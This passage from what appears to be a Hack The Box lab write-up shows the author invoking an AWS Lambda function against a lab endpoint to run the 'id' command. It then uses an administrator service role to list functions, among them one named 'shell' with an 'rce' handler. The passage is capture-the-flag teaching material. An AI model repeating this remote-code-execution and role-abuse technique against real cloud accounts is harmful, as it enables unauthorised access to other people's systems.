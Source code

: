 ```

```

We  need to call this function and save the output in `txt`, when we execute it in the `txt` file, we can see the command id executed
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ aws --endpoint-url http://cloud.amzcorp.local lambda invoke --function-name id output.txt | jq 
{
  "StatusCode": 200,
  "LogResult": "",
  "ExecutedVersion": "$LATEST"
}
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ cat output.txt 
"uid=993(sbx_user1051) gid=990 groups=990\n"
```

Something else to note is that when creating and calling this function using the service `adm` role, we are an administrator for the entire AWS service, so we can list these functions.
```
aws --endpoint-url http://cloud.amzcorp.local lambda list-functions | jq  
{
  "Functions": [
    {
      "FunctionName": "tracking_api",
      "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:tracking_api",
      "Runtime": "python3.8",
      "Role": "arn:aws:iam::123456:role/irrelevant",
      "Handler": "code.lambda_handler",
      "CodeSize": 662,
      "Description": "",
      "Timeout": 3,
      "LastModified": "2023-09-18T04:18:59.017+0000",
      "CodeSha256": "HIkPHSeYh4DIQb5LaRF3ln8QjuajegZJsEyK8tCcxrU=",
      "Version": "$LATEST",
      "VpcConfig": {},
      "TracingConfig": {
        "Mode": "PassThrough"
      },
      "RevisionId": "5b7326f4-0090-403d-97ec-56101f1fdd69",
      "State": "Active",
      "LastUpdateStatus": "Successful",
      "PackageType": "Zip"
    },
    {
      "FunctionName": "shell",
      "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:shell",
      "Runtime": "python3.8",
      "Role": "arn:aws:iam::000000000000:role/serviceadm",
      "Handler": "rce.lambda_handler",
      "CodeSize": 472,
      "Description": "",
      "Timeout": 3,
      "LastModified": "2023-09-20T02:25:58.247+0000",
      "CodeSha256": "/mvu/HR9/kYGlcBkDeEhAGro67O0xK9X4/F75mn+uCg=",
      "Version": "$LATEST",
      "VpcConfig": {},
      "TracingConfig": {
        "Mode": "PassThrough"
      },
      "RevisionId": "f819e703-0e7d-4027-8d82-e96a8db0098f",
      "State": "Active",
```